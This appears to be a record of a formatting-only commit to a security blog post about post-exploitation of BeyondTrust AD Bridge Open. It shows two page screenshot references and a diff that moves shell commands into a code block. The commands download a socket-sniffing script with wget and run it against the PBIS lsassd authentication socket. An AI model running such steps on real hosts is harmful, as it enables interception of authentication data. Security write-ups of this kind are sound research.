

Before and after one commit to ricardojba/ricardojba.github.io, a Jekyll site: the page built from _posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation.md, in a window 1280 px wide and 900 px high, scrolled down 5784 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

````diff
--- a/_posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation.md
+++ b/_posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation.md
@@ -116,11 +116,13 @@ I'll need to install wireshark/tcpdump and socat and then run a small bash scrip
 
 Since I have to wait for a SSH connection, I'm going to run everything from a Tmux session. That way I can detach it and leave it running.
 
-`yum -y install wireshark socat tmux`
-`tmux`
-`wget https://gist.githubusercontent.com/ricardojba/05d8ca06717292798054ca968082b70a/raw/5eea101b9054b19aa21714b2cbcbc5bc2173cdf4/unixsock-sniff.sh -O unixsock-sniff.sh`
-`chmod 755 unixsock-sniff.sh`
-`./unixsock-sniff.sh -u /var/lib/pbis/.lsassd`
+```
+yum -y install wireshark socat tmux
+tmux
+wget https://gist.githubusercontent.com/ricardojba/05d8ca06717292798054ca968082b70a/raw/5eea101b9054b19aa21714b2cbcbc5bc2173cdf4/unixsock-sniff.sh -O unixsock-sniff.sh
+chmod 755 unixsock-sniff.sh
+./unixsock-sniff.sh -u /var/lib/pbis/.lsassd
+```
 
 <p align="center">
   <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-8.png">
````
